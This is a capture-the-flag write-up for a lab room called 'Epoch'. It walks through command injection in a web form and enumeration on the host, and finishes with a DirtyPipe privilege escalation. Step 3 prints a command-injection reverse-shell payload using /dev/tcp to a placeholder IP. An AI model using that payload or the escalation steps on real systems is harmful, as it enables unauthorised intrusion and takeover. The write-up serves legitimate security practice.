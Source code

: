 <h1>writeup-Epoch</h1>
In this writeup, i will include all the steps i took to solve the room.
<img src="./img/logo.png" alt="logo" width="700">
<blockquote><h3>
    The room description suggests tha there is a vulnerable WebApplication and also asking us to check out another room related to <code>Command Injection</code>.
</h3></blockquote>

<ul>
    <li>
        <strong>Step 1 :</strong>
        <ul>
            Check out the WebApplication.<br>
            <img src="./img/webPage.png" alt="webPage"><br>
        </ul>
    </li><br>
    <li>
        <strong>Step 2 :</strong>
        <ul>
            Let's try Command Injection in the input field from <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">hacktricks</a>.<br>
            <img src="./img/webPage2.png" alt="webPage2"><br>
            It works.
        </ul>
    </li><br>
    <li>
        <strong>Step 3 :</strong>
        <ul>
            Let's get a reverse shell by using this payload -> <code>|| sh -i >& /dev/tcp/YourIP/1234 0>&1</code>.<br>
            <img src="./img/shell.png" alt="shell"><br>
        </ul>
    </li><br>
    <li>
        <strong>Step 4 :</strong>
        <ul>
            Try to find user.txt or flag.txt using <code>find</code> command.<br>
            <Strong>FAILED!</Strong><br>
            Maybe the only flag we get is the root flag.
        </ul>
    </li><br>
    <h2>Get root</h2>
    <li>
        <strong>Step 5 :</strong>
        <ul>
            <code>sudo -l</code><br>
            <code>sh: 1: sudo: not found</code>
        </ul>
    </li><br>
    <li>
        <strong>Step 6 :</strong>
        <ul>
            <code>crontab</code><br>
            <code>cat: /etc/crontab: No such file or directory</code>
        </ul>
    </li><br>
    <li>
        <strong>Step 7 :</strong>
        <ul>
            <code>env</code><br>
            Found the flag.......<br>
            I might have left the room since i already have the flag but i want to see if i can get root.
        </ul>
    </li><br>
    <li>
        <strong>Step 8 :</strong>
        <ul>
            <code>find / -type f -perm -04000 2>/dev/null</code><br>
            Nothing intrest.
        </ul>
    </li><br>
    <li>
        <strong>Step 9 :</strong>
        <ul>
            <code>uname -a</code><br>
            Linux kernel version 5. <br>
            This might be vulnerable to <code>DirtyPipe</code> exploit.<br><br>
            <ol type="1">
                It's a 3 step process to execute this exploit.
                <li>
                    Download <a href="https://www.exploit-db.com/exploits/50808">DirtyPipe</a> exploit code on your local machine.
                </li>
                <li>
                    Start python server on your machine and download the exploit on target machine in <code>/tmp</code> directory.
                </li>
                <li>
                    Compile and execute the executable using <code>gcc</code>.
                </li>
                <img src="./img/root.png" alt="root">
            </ol>
        </ul>
    </li><br>
</ul>